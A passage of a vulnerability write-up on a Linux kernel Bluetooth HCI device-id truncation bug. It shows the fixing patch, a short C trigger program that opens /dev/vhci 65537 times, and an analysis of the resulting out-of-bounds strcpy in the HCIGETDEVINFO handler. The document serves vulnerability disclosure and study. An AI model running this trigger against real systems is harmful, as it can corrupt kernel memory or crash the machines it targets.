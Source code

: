 ```c
[..]
-		id = ida_simple_get(&hci_index_ida, 0, 0, GFP_KERNEL);
+		id = ida_simple_get(&hci_index_ida, 0, HCI_MAX_ID, GFP_KERNEL);
		break;
	case HCI_AMP:
-		id = ida_simple_get(&hci_index_ida, 1, 0, GFP_KERNEL);
+		id = ida_simple_get(&hci_index_ida, 1, HCI_MAX_ID, GFP_KERNEL);
[...]
-	sprintf(hdev->name, "hci%d", id);
+	snprintf(hdev->name, sizeof(hdev->name), "hci%d", id);

```

## Exploitation

To exploit the out of bounds write, 10000 Bluetooth devices should be connected. To simulate this behaviour, I loaded the `hci_vhci.ko` kernel module to simulate a connection of multiple Bluetooth devices. Loading the driver exposed a character device named `/dev/vhci`.
To trigger the id truncation bug, I simulated a connection of 65537 `(2^16+1)` Bluetooth devices using the following code:

```c
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/resource.h>
#include <sys/time.h>

int main(){
        struct rlimit rlim;
        rlim.rlim_cur = 65537;
        rlim.rlim_max = 65537;
        setrlimit(RLIMIT_NOFILE, &rlim);

        for(int i = 0; i < 65537;i++){
                int fd = open("/dev/vhci", O_RDWR);
        }
}

```

I used the [setrlimit] system call to increase the maximum number of open file descriptors of the relevant exploit.
When the process exited, and the file descriptors were closed (== the HCI devices were released), the following bugs were triggered;


# Bug 1: Out of bounds write

An out of bounds write occurs at `net/bluetooth/hci_core.c`, at the `HCIGETDEVINFO` ioctl handler:
```c
int hci_get_dev_info(void __user *arg)
{
	struct hci_dev *hdev;
	struct hci_dev_info di;
	[...]
	if (copy_from_user(&di, arg, sizeof(di)))
		return -EFAULT;

	hdev = hci_dev_get(di.dev_id);
	[...]

	strcpy(di.name, hdev->name);
	di.bdaddr   = hdev->bdaddr;
```

[commit]: https://github.com/torvalds/linux/commit/103a2f3255a95991252f8f13375c3a96a75011cd
[setrlimit]: https://linux.die.net/man/2/setrlimit 
